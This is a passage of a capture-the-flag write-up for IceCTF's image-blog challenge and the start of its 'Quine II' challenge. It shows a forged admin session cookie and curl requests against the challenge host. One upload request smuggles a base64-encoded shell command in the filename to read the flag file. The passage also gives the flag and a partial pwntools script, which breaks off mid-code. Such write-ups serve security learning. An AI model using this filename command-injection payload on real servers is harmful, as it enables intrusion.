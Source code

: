 Now, you can log in the site as an admin, using the session `eyJ1c2VyIjoxfQ.Cp3EEg.pisHXEaPJs2TdTCIUI2d5EbhKXE`.

However the flag is not appeared, and there is an `Upload` feature.
If you uploads a file, the server `file`s it to check that it is an image file. And if not image, then the server prints the result. i.e.

``` sh
$ curl http://imgblog.vuln.icec.tf/upload -H 'Cookie: session=eyJ1c2VyIjoxfQ.Cp3EEg.pisHXEaPJs2TdTCIUI2d5EbhKXE' -F title=title -F image=@foo.txt -F blogtext=blogtext
...
/uploads/footxt: ASCII text
...
```

Also, around the `file` command, you can do OS command injection.
You cannot use `.`, since this is removed by the server.
So you should use base64 or wildcards like `flag?txt` or `flag*`.

``` sh
$ curl http://imgblog.vuln.icec.tf/upload -H 'Cookie: session=eyJ1c2VyIjoxfQ.Cp3EEg.pisHXEaPJs2TdTCIUI2d5EbhKXE' -H 'Content-Type: multipart/form-data; boundary=----FormBoundary' --data-binary $'------FormBoundary\r\nContent-Disposition: form-data; name="title"\r\n\r\ntitle\r\n------FormBoundary\r\nContent-Disposition: form-data; name="image"; filename="; id; echo '$(echo cat flag.txt | base64)$' | base64 -d | sh;"\r\nContent-Type: image/png\r\n\r\nfoo\r\n------FormBoundary\r\nContent-Disposition: form-data; name="blogtext"\r\n\r\nblogtext\r\n------FormBoundary--\r\n'
```

(Please tell me it if you know a better way to do such a thing. The command opitons are too long and not smart...)

## Quine II

Most of this is the same as the previous problem Quine.
This has a restriction to the size of echo-back, but this restriction is not very tight.
Although the original one is a bit fun, but I feel this is unnecessary.

`IceCTF{my_f1x3d_p0inT_br1nGs_alL_th3_n00bs_t0_th3_y4rD}`.

``` python
#!/usr/bin/env python2
import re
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='quine.vuln.icec.tf')
parser.add_argument('port', nargs='?', default=5501, type=int)
args = parser.parse_args()

quote = lambda s: s.replace('\\', '\\\\').replace('"', '\\"').replace('\n', '\\n')

a = '''\
#include<stdio.h>
#include<stdlib.h>
#include<dirent.h>
char*code="'''

b = ''
b += '''";
void quote(char*s) {
 for (; *s; ++ s) {
  switch (*s) {
   case '\\\\': printf("\\\\\\\\"); break;
   case '"':    printf("\\\\\\"");  break;
   case '\\n':  printf("\\\\n");    break;
   default:     printf("%c", *s);   break;
  }
```